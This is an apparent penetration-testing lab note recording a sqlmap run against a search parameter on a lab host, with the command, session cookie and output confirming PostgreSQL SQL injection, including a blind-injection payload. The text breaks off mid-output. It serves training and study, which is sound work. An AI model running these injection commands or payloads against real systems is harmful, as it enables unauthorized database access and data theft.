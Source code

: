 Used [SQLMAP](obsidian://open?vault=OSCP&file=TOOLS%2Fsqlmap%2FHOW%20TO)

Command
```bash
sqlmap -u 'http://10.129.239.5/dashboard.php?search=any+query' --cookie="PHPSESSID=1a5mp168lht1niqkdrjh277q48"
```

Result
```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.7#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:30:38 /2022-09-27/

[18:30:38] [INFO] testing connection to the target URL
[18:30:38] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:30:38] [INFO] testing if the target URL content is stable
[18:30:38] [INFO] target URL content is stable
[18:30:38] [INFO] testing if GET parameter 'search' is dynamic
[18:30:38] [WARNING] GET parameter 'search' does not appear to be dynamic
[18:30:39] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
[18:30:39] [INFO] testing for SQL injection on GET parameter 'search'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 
[18:30:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:31:00] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:31:00] [INFO] testing 'Generic inline queries'
[18:31:00] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[18:31:00] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable 
[18:31:00] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[18:31:00] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
[18:31:00] [INFO] testing 'PostgreSQL inline queries'
[18:31:00] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[18:31:00] [WARNING] time-based comparison requires larger statistical model, please wait..... (done)
[18:31:11] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[18:31:11] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[18:31:21] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
[18:31:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=any query' AND (SELECT (CASE WHEN (8985=8985) THEN NULL ELSE CAST((CHR(111)||CHR(73)||CHR(100)||CHR(98)) AS NUMERIC) END)) IS NULL-- HRtV

    Type: error-based
```